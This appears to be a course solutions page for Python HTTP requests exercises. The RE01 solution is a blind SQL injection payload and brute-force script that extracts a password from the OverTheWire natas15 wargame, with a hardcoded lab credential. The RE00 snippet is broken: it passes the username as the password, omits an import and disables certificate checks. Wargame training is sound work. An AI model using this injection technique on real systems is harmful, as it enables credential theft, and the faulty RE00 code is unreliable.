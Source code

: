 Solutions
======================================================

Requests
-----------------------

.. _RE00_solution:

Solution to RE00
++++++++++++++++++++++++++++

.. code-block:: python

    from requests.auth import HTTPBasicAuth
    from credentials import username, username

    URL = "https://userdatabase.lsy.pl/employees/report/employee/active"

    auth = HTTPBasicAuth(username, username)

    r = requests.get(URL, auth=auth, verify=False) # to ignore certificate warnings

    print(r.status_code)

.. _RE01_solution:

Solution to RE01
++++++++++++++++++++++++++++

..
    Malicious query
    ____________________________

    The user input that would escape the original query, and add the additional condition on the password is (for the first letter assumed to be "A"):

    .. code-block:: sql

        'natas16" AND password LIKE BINARY "A%'

    The full query will have then the form

    .. code-block:: sql

        SELECT * from users where username="natas16" AND password LIKE BINARY "A%"


    Working script
    ____________________________

    .. code-block:: python

        import requests
        from requests.auth import HTTPBasicAuth

        chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

        URL = "http://natas15.natas.labs.overthewire.org"

        auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

        template = 'natas16" AND password LIKE BINARY "{}%'

        letters = ""

        for _ in range(32):
            for letter in chars:
                payload = {"username":template.format(letters+letter)}
                r = requests.get(URL, auth=auth, params=payload)
                if "This user exists" in r.text:
                    letters += letter
                    print(letters)
                    break

        print("Password found {}".format(letters))